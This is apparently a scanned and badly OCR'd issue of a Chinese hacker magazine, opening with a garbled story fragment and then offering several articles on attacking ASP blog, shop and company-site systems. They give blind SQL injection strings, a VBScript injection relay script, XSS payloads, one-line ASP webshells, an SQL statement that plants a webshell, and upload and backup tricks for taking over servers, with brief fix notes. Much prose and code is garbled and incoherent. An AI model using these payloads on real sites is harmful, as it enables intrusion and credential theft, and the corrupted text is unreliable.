第 3 天，我带着自己的手提电脑来到正勤的公司。刚来到总办公室前，正在办公的秘书就拦住了上来：“先生要找总裁吗？”“嗯，我回家时，这时秘书地把我的电脑记了。你不可以拦我。”我说，“你们电话给你就去说，这是一个叫阿泽的人找他，他会见我的。”秘书听完，刚好拿起来上的电话；“韩正勤”正勤总裁，处理好电脑时就说：“先生，老板有事。”我没有理会我办公室楼上方，正勤，正勤与伙伴等走向高高贵对策，当然看到我的，并只想的，是空…在这里，我坐在我戴的了，电池的桌上，连忙请我坐下，对我讲我到我那的楚快卡信息在他的办公室由对策的重要性。他们的系统里面所有的文件都打不开，就连连我在吧，交给他两地也无济于事。我拿起演示来的手机，连上电脑，使出我的主意，连上电脑的服务器……

经过 2 个小时的努力，系统终于恢复了正常。这时，房间里一片欢呼。我也赶快地说，老板，正勤的影响上来时，说：“阿泽，谢谢你！” 于是，我打开我想要的那位电脑，在正勤面前我高高的声音：“要谢谢我。”

我之所以要建立，则是因为与阿英交谈我我所爱，并讲出了真话。原来你们的都是爱吧，并不是正勤。因为阿英很爱他，她非常希望正勤可以劝阻他对我在办公室，给到我的要求我会处理，同时，我原本的各种的东西就不要了，机会保持我住了今天的安全，也转为了正勤对我的好感。还好，只要你正勤都在一旁，我就能理解他，他也就会被我高兴的那个声音感动地对我说，我也很感谢他，对我真心实意，他还给我了我们与阿英这次的感情。

于是，正勤，我向他诉说他的想法，返回了一家电脑公司。刚开始没几个月，生意就非常的红火。我抱着，正勤和阿英在默默地帮着我，我们曾经是朋友，以后也不会改变。

编后感言：这篇文章小而又欢乐感吧，但是感觉不错。作者的名字也许没有注定吧，叫“英熊123”，且又能地道，文章之间也经常会因为一些刺毛线而产生笑点，严肃的点评观点用次好玩，但作者却方大对真实爱情记忆，可能常常能更由而不会有太深势吧。所以作者文本深邃更多多的，是成长或知识方面，在自我定，一切见风云散。

# 【新锐编练营】

# 从鸡肋到鸡翅

本文可以学习：
- SQL 漏洞分析
- ASP 中几个函数的特殊用法

想起春节期间，一位朋友给我一套博客代码，出于着检测一下安全性！这套书说得事杂志提，正好借此来打发了一下时间！不过像好没有 ASP 代码了，不知它是否还值得呢？

## 一、疏忽致漏洞

在本地搭建后，看了一下权限，原来是 CIXIBLOG 3.0。这是啥情况？问了问百度，原来是滤谋整，红东西不少使用者，看样看来又面临难关了！

粗略地看过 UserManage 目录下的文件，发现 4“Article_Del.Asp”、“Comments_List.Asp”、“Rss_Add.Asp”、“Message_List.Asp”、“Url_Favorites.asp”等文件中，都存在同一个 BUG。该 BUG 就是存在 Article_Del.Asp 中发现的，但为了方便介绍以及后面的测试都统一一下，下面就以 Rss_Add.Asp 为例，跟踪重看一下 BUG 的发现过程，Rss_Add.Asp 的部分源代码如下：

细密部落自编博客

CblogObj.FormRequest("Action") = "delete" then 删除RSS频道过程 Dim RssID RssID=CblogObj.FormRequest("ArticleID") CONN.EXECUTE("Delete from tb_Rss where User_ID="&Session("UserID")&" and ID in("&RssID&")") GetEInfo("<div class='coder'>操作成功提示:删除RSS频道成功！</div>") End if

有问题的话句在 "AND id in("&RssID&")" 中，这是一个条件语句，也可以看做是一个函数逻辑，将 RSSID 的值赋给 ID，如果所获得 ID 值在 tb_Rss 表的 ID 内，那么 AND 条件就为真。否则为假。在为假的情况下则使前面的 USERID 为真也不会执行删除语句。

编译以后的 RSSID 是数组类型，它在进入 CblogObj.FormRequest 过滤的时候，那么这个自定义函数是如何过滤的？在 Inc 目录中的 "CatyBlogClass.asp"，找到了源代码，代码如下：

## 略了呢？莫非新版本还有其它的过滤？

它采取的是 Form 接收方式，其中又多了一个 CheckSqlstr 函数，那么这个函数过滤了什么呢？

``` 
Private Function CheckSqlstr( Str )
  If Isnull(Str) Then
    CheckSqlstr = ""
    Exit Function
  End If
  Str = Replace(Str, Chr(0), "")
  CheckSqlstr = Replace(Str, "'", "''")
End Function
```

一个 chr(0) 和一个单引号，chr(0) 是 16 进制的 0x00，也就是我们以前拼助手网上传漏洞的一个字符，而单引号则是为了阻止用户提交单引号。虽然过滤的很少，但但还是不够。

这其中 "AND id in('&#RssID&')" 并没有使用到单引号，所以这个 CheckSqlstr 过滤就起不了什么作用了。但 ID 是一个数值型字段，如果让 RSSID 绑定交到给与前面的 ID 进行匹配呢？我想到 IIF 语句，类似于 IIF 语法的函数，可以实现为：IIF(逻辑表达式, 为真的表达式, 为假的表达式)，如果逻辑表达式为真时，比如 1=1，就返回“为真的表达式”，如果表达式为假时，则返回“为假的表达式”。例如我将我的语句写为："=IIf((select len(user)-pass) from [tb_user]where 1=1,155,1)"，其中前一个用户 ID 是 “select len(user)-pass” 这个表达式前面的 ID 值，而 155 取的是 RSS 列表的一条数据。当我将输入的 "新闻值" 赋给相应的页面的 RSS 频道值（155）时，提交开始返回 1 - 2，则会将所引行 1 提交给 ID，即使这个 ID 存在于 tb_Rss 表内，因为 SQL 语句中 "User_ID" 和 Session("UserID") 的限制，也无法删除前面的 ID 值(1)。

如果不存在的值测试，在查询这个列表时，我忽然想到了字符，当界面前的数字值为字符串，1 = 2 时，因为类型不同，不就出现了两个网页首页？但字符备将另行表才可以打开，那个又能将帐号里的护送页面汇给离被关了。如果账号句被允许 1=1 和 1=2，返回的均没有“类型错误”之类的报告，如图 1，看齐 CixiBlog

新方法？在对这个两个一个标识，程序将会自动排出吧，少一个标识就能满足一个条件，想想应该就不是如果一个 1 天呢，这种问题是很好办，一个人呢会不会自动换呢，对，笨办法！

对照代码的流向，顺藤摸瓜，八个一個的看，结果发现和 CIXIBlog 没什么两样！不过这个 CITIBLOG 体系架构里，CIXIBLOG 要比别的多，先在本地测试一下，再说。和前面一样，仍然是先提交数值类型的 IIF(1=1,1,5),1，当条件成立时，标题的 RSS 频道被删除了，看某 CityBlog 和 CixiBlog 所处理的资源是不一样的。再试 IIF(1=2,1,"a") 的方式，意思都可能代表正常的字符串参数。

嗯？返回“ODBC Microsoft Access Driver”参数不足，期待是 1”，如图 2。

本文中对不同的情况进行了比对，老是提到 1 比较，必须 1=1 的条件，返回的是“操作成功”还是“返回的是（操作成功）”，若在 1=1 和 1=2 之间，不会有不同的页面，这对用户而言，是一条非常重要的依据。

再试一种方法，直接返回页面，问题也可以将这个字符串作为错误信息输出，看看结果如何。图 3 看齐 CixiBlog

但这个漏洞在 MDB 版本中无效，部分语句被当成了参数而进行处理。在 SQL 语句中我们可以再传输一些类似的字符串，如：Articles(ID)=1 and user()>0--，可以明显发现，这段请求的返回与错误信息有关。

## 二、鸡肋变鸡翅

说了这么多理论，小木还是有些郁闷了，一起，不要变成菜了，看着俺是如何把鸡肋变成鸡翅的！在动手之前，先介绍一段数据转换方法、代码如下：

``` 
<% ... %>
' 注入模式
Select Case ...
Case ...
```

# 【第安安全藏宝手册 2007.11】
【新闻编辑室】

```vb
c
Jmstr=SQLCode(request("jmcdw"))
Case 1 ' 为 CityBlog 的 MDB 版本
Jmstr=MDBCode(request("jmdw"))
Case 2 ' 为 CiXiBlog 的 MDB 版本
Jmstr=MdBai(request("jmcdw"), request("Userid"), request("LeiB"), request("NumB"), request("Mdb"))
' End Select

// 以下数据根据目标网站进行修改
JMUrl="http://127.0.0.1/UserManage/Comments_List.Asp" ' 注入地址
JmJmCode = ASPSESSIONID&CASQODB ...
' cookie代码
// 完毕

JmJmCode=replace(JmJmCode, chr(32), "%20")
JmJmCode=replace(JmJmCode, chr(27), "%20")
JmJmCode=replace(JmJmCode, chr(37), "%28")
JmJmCode=replace(JmJmCode, chr(43), "%20")
JmJmCode=replace(JmJmCode, "Action=delete&ArticleID=" & JmStr, ' 提交的值名'
response.write PostData(JmUrl, JmStr, JmJmCode, JmUrl) ' 返回提交的信息

Function MDBCode(JmdwMdb)
  JmdwMdb=case(lrpage)
  MdbCod=right(JmdwMdb, chr(32)) ' 过滤为小写
  MdbCod=case(mid(JmdwMdb, len(JmdwMdb)-instr(...)))
End Function

Function MDBCode1(Hackd,UserId,LeiB,NumB,Ascb)
  Select case LeiB
    Case 0 ' 等列成长度
    MdbCod=code = len(user_pass)
    Case 1 ' 等列成字符
    MdbCod=code = Asc(mid(user_pass, + NumB & ",1"))
    Case 2 ' 测试调码
    MdbCod=code = len(id)
  End Select
  MdbCod="(select * & MdbCaiCode & from[tb_user] where id=" &
  & Hackd & ")" + Ascb & "'" + select top 1 id from(tb_rss)where user_id=" &
  & UserId & ' order by id)1,'
End Function

Function SQLCode(JmstrSql)
  SQLCode=1 or 1=1 & JmstrSql & "--"
End Function

Function PostData(PostUrl, PostSPost, PostCol, PostRed)
  Dim Http
  Set Http = Server.CreateObject("msxml2.serverXMLHTTP")
  Http.open("post", PostUrl, False
  Http.send(PostCol)
```

以下为示意图说明：Cookie 代码（JmCok）与 RSS 订阅、URL 参数拼接、注入地址及提交数据的组合方式。图中展示了通过修改 Cookie 与 URL 请求参数来实现 RSS 频道记录的查询与变更。


图6 RSS 记录。RSS 频道满足之后，才有精确的多条记录显示方式。先测试站点是否存在漏洞，输入测试 URL，例如 `http://127.0.0.1/jmpost.asp?s=2&hackid=106&userid=106&leib=2&NumB=ascb=106`，其中的 `jmpost.asp` 为脚本文件名，`s=2` 表示以 Cixiblog 的转发功能提交，`hackid`、`userid` 与 `leib` 分别用于指定目标 ID、用户名和测试类型。


图7 RSS 频道减少了一个。若 RSS 频道减少了 1 条，说明该站点存在漏洞，接着连接到上面的 URL 进行进一步测试。继续调整 `s`、`hackid`、`userid`、`leib`、`NumB` 等参数，可以逐步验证记录数变化。

# 1. CIXIBLOG 猜解

首先用“桂林老兵”的 Cookie 代码浏览器——MyBrowser 打开本地的 CiXiBlog 程序，在登录时，一定要选择“下次不必登录”项，这样保存的 COOKIE 值可包含用户名字密码等信息。登录成功后，打开“RSS 订阅”页面，如图 5。


图8 RSS 频道又减少了一个。若再把后面的 `>5` 改为 `>10`，结果记录没有减少，说明长度在 6–10 之间，将 10 改为 8、记录仍没有减少，说明这个字段长度小于 10。

7、8之间，将大于号改为等号，最后在7时，这行，记录减少了一条，OK，长度缩到了，下面我们将字符。修改其中的 leib 的值为 1，numb 的值为 1，numb 是用于定位所需字符的，其值为 1 就表示猜第几位的结果。猜解的结果为字符的 ASC 码值，字符 ASC 值的范围一般是在 40 至 126 之间，在猜解时，最好按字符的分布进行猜解，比如先输入 90，没有减少，说明字符的 ASC 值在 90 以内，再输入 60，如果减少，就在 60 与 90 之间寻找，如果是 30 以内，就在 40 至 60 之间找，这样一个字符最多也就能猜 8 个左右，就算出来了。当猜出第一个字符后，将 numb 的值由 1 改为 2，继续猜解第二位的 ASC 值，一直到前面密码的密钥长度为止。在猜测完成后，找一个 ASC 转换工具或表来换算 ASCII 对照表，就能得到指定 ID 的密码，得到了密码也就拿到了这个用户的权限。为什么？因为不论是 CXI 还是 CITY，用户的密码都影响明文显示，所以得到了密码也就是一张脸上的事。

# 2. CITYBLOG 暴破

让CiXiBLOG中的漏洞是很明显的，不谋的很像，在设计没起的的猜解过程后得到一个用户的密码！路径就像运行后，吾将便靠猜解，并留下不要安装，在进入 RSS 订阅窗口，将 URL 地址栏及 COOKIE 值中提出的内容中的 JMJ0 和 JmC0j 项，如果 RSS 浏览中没有列表，就需要在内容字段中添加一些，只要一条条往下看，在 tb_Rss 表中，如果没有我们的 ID 值，就会先出现。而其中还在此处不能修改，可能还会有一些问题，我会在下一文里再解释，接下来可以打开数据库进行查看。

OK，一切准备就绪，启动 NBSl，在注入地址栏输入：http://127.0.0.1/jmppst.asp?s=1&jmdcw=1，其中 s 的值 1 表示转发的是 cityblog 的数据。点击“检测”后出现已经进入漏洞；这时只要将“操作成功”作为特征字符串输入，再进行检测，检测到漏洞。


因为 cityblog 中的表字段字段名不在 NBSl 的数据库中，要填解某个表中的记录，只要手动将字段和表名放入就可以了，比如我，要猜解管理员表（Tb_Admin）中的内容，需要先在表名下方的“手工输入表名”处输入“tb_admin”，然后点“添加用户名和密码”按下字样再将“Blog_Admin_Name”和“Blog_Admin_Pass”这两个字段分别输入到猜解的记录中，最后，选中该字段保存，这时 NBSl 执行猜解，然后获取结果，如图10。

# 3. CiTyBlog 注入


SQL 版，猜解的速度就更快了。下面再来测试一下本地的 SQL 版，还是先用 MyBrowser 将得到的 Cookie 值及 Rss_Add.asp 视窗地址转发时的 jMUr1 和 JmCk 项。在经过多次测试后，明明已经在爆猜结果值了，但 NBSl 却不理不睬，而 HDSI 里能够快速地暴破解数据包，但进入字符串解析时，在提交词句时却出现了单引号，在转发包内加入转换字符的代码，结果仍是不成功，最后终于发现了一款不错的钻牛软件 GYSInwe，这软件是一款只对 SQL 注入的工具，在“注入地址”中输入："http://127.0.0.1/imppst.asp?s=0&jmdcw=1"，其中 s 的值为 SQL 数据转换，jmdcw 所提交的 1 不能缺少，这个不能修改，因为需要利用本地的数据进行匹配。“检测”后面只是出现数据库的名称及连接数据库的用户名。


接下来，点击“读取表名”或“读取列名”，就能得到该数据库中的信息了，如图12，暴出了 TB_USER 表中的内容，因为是在本地测试，那速度真快！

## 三、一招堵漏洞

经过上面一系列的分析，是否觉得这个 BUG 有些难的味道了呢？下面就来说一下修补方法，漏洞形成的原因就是因为没有对提交的数据进行数据和数据库表名的限制，也没有对单个字段名称、可以 SQL 语句之前加一个“CblogObj.iscint”，那么就能有效地阻止注入的危险了。修补的方法及细节见“RssiD=CbloGbJ.FormRequest("ArticleID")+RssID=CbloGbJ.iscint(CblogObj.FormRequest("ArticleID"))”其他文件也要这么处理，在提交表单时加上 CblogObj.iscint 进行数值转换。

（文中用到的工具 GYSInwe、JMPoStl、私桌老卡 cookie 浏览器、MyBrowser 转载用的转发代码见本书配套光盘）。声明：请勿利用本文的技术及工具从事非法活动，否则，后果自负。

> 编辑点评：剖掘同学过年写的文字现在是在分享出来，真是学了众人，幸好其中所用的技术和涉及到的知识是没有过时的，其中也成长，也很精彩，技术篇虽短，细中多有比如，喜欢这位高手做下这几次接受应会，效果却神一样。

# 让网站死得体无完肤——探访漏洞之王

图：Sniperh@ | SnowHack.Com

从本文你可以学到：
1. ASP 漏洞分析思路
2. 实战 ASP 漏洞分析、利用

研究 ASP 有一段日子了，漏洞也找过不少，可是，没见过漏洞如此之多的，可以说是网上流行的漏洞它都有了，真的可以用千疮百孔来形容了。下面笔者有请今天的“漏洞之王”——方便产品开发公司网站管理系统漏洞再正式版，版本是 V2008，我下的是演示版，要买的话要 800RMB，其实根本不值得，这程序还挺多都不敢买。

## 一、战前踩点

在挑毛病之前我们先来看看程序所做的一些安全措施：
1. 注入方面：
很多文件都包含了 Inc 目录下的 Sysconn.asp 文件，还有 SysDown.asp 文件，这两个文件都不在页面的包含了 Check_Sql.asp 文件，看名字就知道是干什么的了，用来防注入的。网上图上可以看到，很多常见的一个文件，如图1。


很明显，只过滤了 GET 和 POST 两种方法提交的参数，而没有对 COOKIE 参数进行过滤，只要在其他文件找一个直接用 Request 方法接收参数的文件就可以把 COOKIE 注入，不过我们不用这么麻烦，因为后面将有更好利用的文件。

2. 跨站方面：
大家都知道，防止跨站攻击就要仔细地过滤用户提交的数据，特别是“<, >”这两个符号，INC 目录下 ArticleChar.inc 文件里有一个 htmlencode2 函数，定义如下：

```vb
function htmlencode2(str)
 dim result
 if isNULL(str) then
 htmlencode2=""
 exit function
 end if
 len(str)
 result=""
 dim i
 for i = 1 to len(str)
 select case mid(str,i,1)
 case "<"
 result=result+"&lt;"
 case ">"
 result=result+"&gt;"
 case chr(13)
 result=result+"<br>"
 case chr(34)
 result=result+"&quot;"
 case ...
 end select
 next
 htmlencode2=result
 end function
```

```vb
case "&"
result=result+"&amp;"
case chr(32)
result=result+"&nbsp;"
case chr(9)
result=result+"&nbsp;"
```

看得出来，过滤了大部分的有害字符，如 <, >, &, chr(34), chr(32) 等等，可以说是不给我们任何的机会，机会到应有没有呢？幸会分析漏洞的时候就可以看到程序员的思维是多么的单纯。

## 二、全副武装，准备开战

### 1. 注入第一弹
这里准备好我们的必备工具：啊D注入工具一个，ASP马一个，重要的是大脑一个。文件我们来换个的目标，首先把防注入包含入了 Sysconn.asp 和 SysDown.asp 的文件，因为有这两个文件我们注入就有了点麻烦，进入到站的第一个目标就是 CompHonorBig.asp 文件，文件很小，漏洞和小不小：

```asp
<!--#include file="inc/conn.asp"-->
<%dim id
id=request.QueryString("id")%>
<html>
<head>
<title>图片介绍</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompHonor where id="&id,conn,1,1
if trim(rs("CompHonor"))<>"" then
 response.write "<div align='center'></div>"
else
 response.Write "
 end if%>
```

我们很清楚地看到一个明显的数字型注入点，没有任何的过滤就带入数据库进行了查询。注入漏洞出现了，我们边攻边利用，下面就为大家演示注入过程。到了网站的大皇子号的时候了，填入注入点，一分钟过后，用户名和密码都来报道了，如图2。

密码经过 MD5 加密，拿到 www.cmdd5.com 或者 www.xmd5.com 去反查一下就行了，不管查出来的就放弃。注入这条路咱们还没走完呢，接下来各位看官继续欣赏。目标

### 3. 其他相关代码

```asp
<%
if key <> "" then
    if (key = "" ) then
        response.write "<script>alert('...')"
        history.back()
    end if
end if
%>
```

这里出现了典型的搜索型注入点了，关键字 key 没有过滤，但是我们想要构造的关键字是包含有的。虽然这里不细分析了，毕竟它已经是一个好用的注入点了，我截取 2 张图，一个是正常页面，一个是包含注入语句的，如图 3、图 4。

```asp
Set rs = Server.CreateObject("ADODB.Recordset")
if type="title" then
    sql="select * from NEWS where title Like '%" & key & "%' order by id desc"
else
    sql="select * from NEWS where content Like '%" & key & "%' order by id desc"
end if
```

看得出来，BigClassName 和 SmallClassName 只检查了是否为空就进行了查询语句，毫无疑问，一个空注入点诞生了。具体利用不说了，还交给 pdf 了——一顿疯狂扫。

```asp
BigClass=request("BigClass")
SmallClass=request("SmallClass")
if key<>"" then
    n=100
    end if
    if l="" then
        l=100
    end if
    if BigClass<>"" and SmallClass<>"" then
        sql="select * from News where BigClassName='" & BigClass & "' and SmallClassName='" & SmallClass & "' order by AddDate desc"
        rs.open sql,conn,1,1
        do while not rs.eof
```

只检查了 username 是否为空就让了 SQL 语句，这里又是一个字符型的注入点，下边好了，数字型，字符型，搜型的注入点在这一过程里陆续登场了。结果给大家把这个注入点交给码了贼稳。

```asp
dim Action,UserName,FoundErr,ErrMsg
UserName=trim(request("UserName"))
if UserName="" then
    UserName=session("UserName")
end if
if UserName<>"" then
    sql="select * from [User] where UserName='" & UserName & "'"
    rsUser.Open sql,conn,1,3
    if rsUser.eof then
        FoundErr=True
        ErrMsg=ErrMsg & "<b><i>找不到指定的用户！</i></b>"
```

### 2. 跨站漏洞也不少

首先是客户端留言的地方，我们看到有很多项是由我们填写的，这样免不了会出现一些小心意。程序员稍微不注意就成全了我们，如图 5。


```asp
<% 
ClassType=request("ClassType")
```

# 《安全警察手册》2007.11 →【新闻纸编写】

我们有趣地看源文件，如图 8。

我们看到里面有几处地址栏是没有改变的，但是要经过一些构造使其内容，我们将构造了 `1'><script>alert(/sniperhg/)</script><`，提交后，F5 刷新网页，嗅得漏洞成功，因分析如下：


```vb
dim Sex, Email, Homepage
Sex=trim(request["Sex"])
Email=trim(request["Email"])
Homepage=trim(request["Homepage"])
CompanyName=trim(request["CompanyName"])
Add=trim(request["Add"])
Receiver=trim(request["Receiver"])
Postcode=trim(request["Postcode"])
Phone=trim(request["Phone"])
Mobile=trim(request["Mobile"])
Fax=trim(request["Fax"])
```

代码中这里用 htmlencode2 函数过滤了 content 变量，而其他的没做处理，从数据库里拿出来的时候也什么都没过滤，不产生跨站才怪呢。

```vb
if FoundErr<>true then
rsUser["Sex"]=Sex
rsUser["Email"]=Email
rsUser["Homepage"]=Homepage
rsUser["CompanyName"]=CompanyName
rsUser["Add"]=Add
rsUser["Receiver"]=Receiver
rsUser["Postcode"]=Postcode
rsUser["Phone"]=Phone
rsUser["Mobile"]=Mobile
rsUser["Fax"]=Fax
rsUser["LastLoginTime"]=Now()
rsUser.update
```

下面，我们注册一个用户，我注册的是 sniperhg，然后去修改自己的资料，全部写 `<script>alert(/sniperhg/)</script>` 进去，但是只有部分修改成功，因为文件会做检查的，不管这么多了。

### 3. 跨站上传分析

因为我下的提示版本，后台的很多功能都是个摆设，比如备份功能、上传功能，如果哪位碰到了正式版的可以玩一下这个上。我只说说漏洞的原因，流程吧：

```vb
for each formName in upload_file
set objFile=upload.file(formName)
if FileSize>0 then
if FileSize<100 then
msg="请先选择你要上传的文件。"
FoundErr=True
else
select case PhotoUId
case 0
if FileSize>(MaxFileSize*1024) then
msg="文件大小超过了限制，最大只能上传" & CStr(MaxFileSize) & "K的文件！"
FoundErr=True
if FileSize>(10000*1024) then
msg="文件大小超过了限制，最大只能上传 10M 的文件！"
FoundErr=True
```

本来还有一个评论跨站的，但是在页面上到处找不到那个文件，只好作罢。


### 4. 后台 webshell 的获取

后台获取有 2 种方法，一种是传统的备份，程序会自动备份成 ASA 的后缀，还省了我们一点力气。还有一种就是写一句话进配置文件 config.asp。我觉得还是把这两句总结成一句话来说吧：如果对方系统是一次动态请求处理方式，只要在后台有对应的执行语句，就有可能获得 webshell。


图 10 所示。前一个双引号用来闭合前面第一个双引号，中间注入的话，后面再来单引号进行转义，这样通过连接字符串拼接后的内容就更容易被执行。

## 三、程序漏洞的修补


我觉得像中间这种现象，应该比正规程序，这样比较不伦不类。

编排点评：无语，这样的代码只是实现了其功能，能说什么好呢？这样的程序就像 8080RBM，却有着安全防护的巨大时下了，其他人只不过是一个不全套。


从本文你可以学到：1、写一句话木马 2、备份数据库

闲的无聊，上网闲逛，偶然看到一个关于商城的入侵动画，看了后感觉不爽，方法局限性太大，无非就是对几点上任务和管理员的特性。先使用关键字“Powered by 56770”……

我找到下面代码分了五步：第一步，上传文件，如果文件大小小于 100 字节则 FoundErr = True，最后不能上传，如果大于，继续。第二步，检查文件大小，看是否大于规定的限制，符合要求继续。第三步，检查文件的后缀是不是符合规定的后缀，符合要求，EnableUpload = true，继续。第四步，检查文件后缀是不是 asp、asa、aspx 这三种类型，如果是，EnableUpload = false，不能上传，否则进行第五步，保存文件。可能大家觉得这个差异没什么问题，是一个文件那就是一个文件，如果是 2 个文件呢，我们再来分析一遍。第一个文件（JPG，图像格式）上传上去后，后面的方法一直说是没有文件问题，这时候文件传上去了，上去后我们这个文件是一个普通的图片。EnableUpload 为 true 的时候，FoundErr 一直都没有变，这是等于 False 的好，现在到了我们的时候第二个文件，它是一个 ASP 木马，当然，我们不能用 ASP、ASA、ASPX 这 3 个后缀，可以利用 crc32 验证的方法把后缀伪装成 jpg 文件类型。第三步，这里就是前面的那一步了，这样会检查文件后缀是不是规定的类型，我们的文件大概不是这个类型，所以它的 SetLength、EnableUpload 统统不正常了，这样就能够绕过文件检查。第四步，修改 asp 格式文件，这里我们可以思考一下第 5 步的情况，如果是一个文件用错了，我们不就能修改成这个文件的完整形式。

```asp
<%
Execute request("sniperhy")
%>
```

# 一、示意漏洞一

既然找找了，那把上面提到的那个也记下吧，虽然能利用的不多，但也算是凑吧。程序为了方便统计，在程序的 /admin/key.asp 文件设置了可以改密码，好多管理员都删掉这个文件，导致任意用户都可以改密码。进入 admin/key.asp 页面后，如图 1。点击“修改密码”，在“老密码”处就可以改密码了，如图 2。


有了密码进入后台 admin/admin_login.asp，点击“系统管理”->“执行 sql 语句”，如图 3。


在“SQL 语句执行操作”的指令处填入 `INSERT INTO 56770_skins (s_name) VALUES ('<%execute request("value")%>')` 就可以把一句话木马插入数据库中，如图 4。


## 二、示意漏洞二

看到它的数据库是 database/#56770_v5.1.asa，哈哈，我的第一反应就是利用一句话，上一面那个要管理员权限才可以利用，这里大家注册后，可以在注册后的管理（如图 6）联系方法地址插入一句话小马“`<%execute request("value")%>`”，这时我们得到数据库如图 7。熟悉的 execute 爆错，接下来就和漏洞的利用方法一样了。不完美之处：默认数据库路径改了就无法利用。


## 三、示意漏洞三

找了 2 个都不太理想，心里不爽，反正还有代码，我再找找。我找啊找，找到了，在后台的各个站点的 asp 文件中，只要有包含文件（具体代码我不打包全文）发现了一个漏洞，大家看下主要代码：

```asp
<!--#include file="conn.asp"-->
<!--#include file="inc/cookies_check.asp"-->
<%
adminloop()
Select case request("action")
 Case "backup", backup()
 Case "backupdata", backupdata()
```

# 备份页面

这个后台的页面本来是不让改备份路径和备份地址的，还美其名曰“安全”。我们去掉 hidden，把 action 后的地址改成数据库备份的完整地址 http://xx/admin/admin_data.asp 就可以了，主要代码如下：


要是这个备份地址管理员都改，那就真滴超级无敌宇宙第一了，给大家说说我的利用过程吧。

- 我先是兴趣中的去备份，也显示备份成功，如图 9，hoho~
- 难道攻击者盗改 2 次？我一再反映就是能不能用以前上传中的 00 方法来突破，于是打一结束也很难看出有 0，不是这个源的图片；是新站的？
- 放弃？NO！哈哈，想了半天终于让我想到，我们先看看，改备份路径。我把页面上的备份路径改成 "Databackup" 改成 "ceshi" 后访问一下，如图 10。


阿阿，可以重新建立目录那，思路有了，我们可以利用 2003 的目录漏洞，就是 hack.xxx，只要后面是什么就把目录里的文件换成什么文件解析，ok，在上面我们不是想放脚本或源码吗？那么我们直接利用这个备份页面，把我的 conn.asp（注：conn.asp 在 admin 目录下）文件备份到一个 hack.txt 目录下，不就可以取得到内容啦？访问后显示 404，后台会用 shell 执行了，文件确实存在，但是就是不能显示，如图 11。


忽然，十分不解，我又换了几个 php 呀什么的，还是显示不出来，知道难问吗？可能对 2003 的漏洞还不怎么了解吧。谁知告诉师傅，既然搞不定这个不如就换个。

利用二、成功利用

既然可以建立目录，大家一定想到啦，就是弄个 name.asp 的目录，弄个写好的脚本什么的。呵呵，但是我们要先想办法把一个图片马放上去，我找朋友的上传页面，不知道不都是没有可以用的，但是要用来用 cookie 验证，后来我再看后台的时候，发现一个深层目录中有个上传页面不需要验证，admin 的 FCKeditor\editor\filemanager\upload\test.html，只要存一下，实践下。


这里直接用那个不验证的端口，有路径了，上传后拿到路径，这里有回显，大家自己看，不抓图了。在备份路径中...

## 四、不完善漏洞利用

上面提到 admin\FCKeditor\editor\filemanager\upload\test.html 页面，在没有验证的页面中，它利用 upload.asp 文件进行上传，其通过文件 class_upload.asp 定义了不允许上传的文件类型。主要代码如下（已打包）：

```text
ConfigDeniedExtensions.Add "File", "php|php2|php3|php4|php5|phtml|mp1|...|asp|aspx|ascx|jsp|cgi|cfm|pl|bat|exe|com|dll|vbs|js|reg|cgi"
```

# 对**世界商机**整站系统漏洞分析

从本文你可以学到：
1. SQL 注入漏洞的分析
2. 编写脚本功能

世界商机整站系统是一套仿照阿里巴巴基于 b2b 的一套系统，零售的时候 ShuZuo 说这套系统的比较多，他就发给我叫我分析一下。我比较懒，读了几个月也没有把人家要的漏洞读出来，到后边我没得出来时就说这套代码比较安全的活打开例证，到眼见无由于没线上网，比较懒，就把这套代码重新读了一下。

## 1. SQL 漏洞分析

```asp
if file_exists("myinfo_admin\mystore\S\SHENGHE.asp", then the directory and the upload file ...

<% @codepage = 936 %>
<!-- #include file="conn/conn.asp" -->
<script>
set rs=server.createobject("adodb.recordset")
rs.open sql, conn, 1, 1
...
response.write "<P align='center'>对不起，没有您要查询的信息</P>"
```

info_id 直接用 request("info_id") 取得值后，就直接使用 sql 语句 `update info set flag=1 where info_ID='" & info_ID & "'"` ... 于是发现该漏洞可注入。

```vb
dim newsid
newsid=request("newsid")
...
select * from news where newsid="+str(newsid)+" order by Newsid desc
```

试好几次都失败，大家看看，有了新发现一定要发出来呀！

（文章中分析的代码和利用工具已收录在光盘中）

编写点评：
整篇文章是个试探、突破的过程，我遇到是是如此，有的时候使用到就有“跳转”了。无奈的思维确实要讲解会反应，所以选择漏洞的具体的时候，也就会用细细获取某些代码的表达；同时，必须把脚本或者系统都使用图形界面，因此对于初学者来说，这里就是对漏洞非常好的分析过程。

在这段代码中 newsid 用 request("newsid") 取得 newsid 的值，然后用 from newsid 转换成数字，加入到 `select * from news where newsid='"+cstr(newsid)+"' order by Newsid desc` 的 sql 查询语句中。Cstr() 是将整条参数转换为字符串，但是 newsid 现在是 `1=1 and 1=2` 这类逻辑转换都取成数字分隔式处理的；而 Cstr() 还是把整个 newsid 进行了转换，不带有有效型转化。

本来还以为能用工具来猜解的时代，发现网站 D、NBSI、HDSI 都没有成功，估计是因为有的网页没有返回或只是正确的形式，把这页不加密的浏览大小了。这就只有一个字符，即 `http://127.0.0.1/myalibabainfo/ZXDT/info.asp?newsid=535 and( select top 1 len(UserName) from admin_user)>4` 测得管理员用户名长度，管理员密码是 32 位 md5 加密的，`http://127.0.0.1/myalibabainfo/ZXDT/info.asp?newsid=535%20and%20( select top 1 len(UserName,1,1))%20from%20admin_user)>96` 继续得到长度。


## 2、后台的安全

进入后台后，在 N 多的地方可以上传图片，如在“广告服务”的栏目处分广告，点击添加或者修改广告，然后上传去除本页后缀改成 gif 格式的图片，得到图片的位置为 `http://127.0.0.1/linkurl/picture/200591182413.gif`。如图 3 所示。

上传图片后，还可以对网站系统中的各个数据库备份，在数据库路径的地方添上刚刚得到的图片的相对路径，如 `/linkurl/picture/200591182413.gif`，然后修改备份时数据库的名称为 asp 格式，如果备份数据库目录是默认的话，代码会放在 `\mylibabainfo\System\dback` 目录下，如图 4。不是很轻松就拿到 webshell！

## 3、总结

如果是管理员把后台的路径稍微修改一下，我们就没什么办法了。系统完整性基本都过滤了，只除了少数像 info.asp 的文件没……


# 网络多用户调查统计系统漏洞分析

从本文你可以学到：绕过用户验证

猪象网络多用户调查统计系统，功能还算不错。在分析的过程中发现安全不尽人意，下面是我对系统的分析。

## 一、'or'='or' 经典漏洞

漏洞发生在管理登录页面(admin/index.asp)，下面是关键代码：

```vb
if request("login")="ok" then
    dim rs,sql
    dim uID,pwdv  '定义变量
